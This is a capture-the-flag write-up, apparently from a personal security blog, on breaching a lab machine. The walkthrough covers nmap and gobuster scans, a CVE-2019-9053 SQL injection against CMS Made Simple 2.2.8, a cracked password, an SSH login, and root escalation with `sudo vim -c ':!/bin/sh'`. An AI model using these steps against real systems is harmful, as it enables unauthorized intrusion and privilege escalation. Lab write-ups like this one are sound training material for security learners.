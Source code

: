 I begin by scanning the IP with nmap: \`nmap \-sC \-sV \-oA ctf1/scan 10.10.75.135\`

```  
\# Nmap 7.95 scan initiated Thu Apr 10 16:29:02 2025 as: /usr/lib/nmap/nmap \--privileged \-sC \-sV \-oA ctf1/scan 10.10.75.135  
Nmap scan report for 10.10.75.135  
Host is up (0.12s latency).  
Not shown: 997 filtered tcp ports (no-response)  
PORT 	STATE SERVICE VERSION  
21/tcp   open  ftp 	vsftpd 3.0.3  
| ftp-syst:  
|   STAT:  
| FTP server status:  
|  	Connected to ::ffff:10.6.25.18  
|  	Logged in as ftp  
|  	TYPE: ASCII  
|  	No session bandwidth limit  
|  	Session timeout in seconds is 300  
|  	Control connection is plain text  
|  	Data connections will be plain text  
|  	At session startup, client count was 2  
|  	vsFTPd 3.0.3 \- secure, fast, stable  
|\_End of status  
| ftp-anon: Anonymous FTP login allowed (FTP code 230\)  
|\_Can't get directory listing: TIMEOUT  
80/tcp   open  http	Apache httpd 2.4.18 ((Ubuntu))  
|\_http-server-header: Apache/2.4.18 (Ubuntu)  
| http-robots.txt: 2 disallowed entries  
|\_/ /openemr-5\_0\_1\_3  
|\_http-title: Apache2 Ubuntu Default Page: It works  
2222/tcp open  ssh 	OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)  
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)  
|\_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
\# Nmap done at Thu Apr 10 16:29:56 2025 \-- 1 IP address (1 host up) scanned in 53.75 seconds  
```

There are 3 ports open: 21, 80, and 2222\. All of these can be useful for us when trying to think of ways to breach the system. The attack surface of this system is nice to work with \- especially when one of the vectors is exploiting the insecure design.

The web server this machine is hosting redirects to the default Apache webpage. But this does not necessarily indicate the site is empty, so I decided to look deeper with gobuster to see if there was anything else hidden. Gobuster is really handy and easy to use, not to mention \- a very fast tool.

Using this command:

`gobuster dir -u 10.10.75.135 -w directory-list-2.3-medium.txt -t 100`

Gobuster shows me that there is indeed another page with the path: `/simple`.

Navigating to /simple brings me to a website called CMS Made Simple. The version is 2.2.8. The version of the website out in the open like this makes my job a lot easier when trying to find exploits that will work.

![CMS](/security.github.io/images/simple/cms_simple.png)

After a quick Google search, I was able to find that this version of CMS Made Simple is vulnerable to a SQL injection exploit (CVE-2019-9053).

https://www.exploit-db.com/exploits/46635

This SQLi Python script extracts the hashed password and cracks it, enabling access to the target system. The results were:

```  
Username: mitch  
Email: admin@admin.com  
Password: 0c01f4468bd75d7a84c7eb73846e8d96  
Cracked Password: secret  
```

Now I am able to ssh into mitch's computer using: \`ssh mitch@10.10.75.135 \-p 2222\` with the password:

![SSH](/security.github.io/images/simple/SSH.png)

Once inside, the User flag: user.txt is readily available for me to capture. Easy\! 

My next order of business is to see what sudo commands the users here can run. Using \`sudo \-l\`, I am able to see that Mitch is able to run /usr/bin/vim as a root user without a password. 

After looking online, I found out that Vim can be used to *break out of restricted environments by spawning an interactive system shell*. This is a huge vulnerability and gives us the ability to escalate our privileges to become the root user \- with this simple command: \`sudo vim \-c ':\!/bin/sh'\`.

![sudo vim](/security.github.io/images/simple/sudovim.png)

There you go \- I have achieved privilege escalation. After navigating to the root directory, I was able to finally find the root flag:

![final](/security.github.io/images/simple/final.png)

Whoever is running this website needs to seriously work on the security!

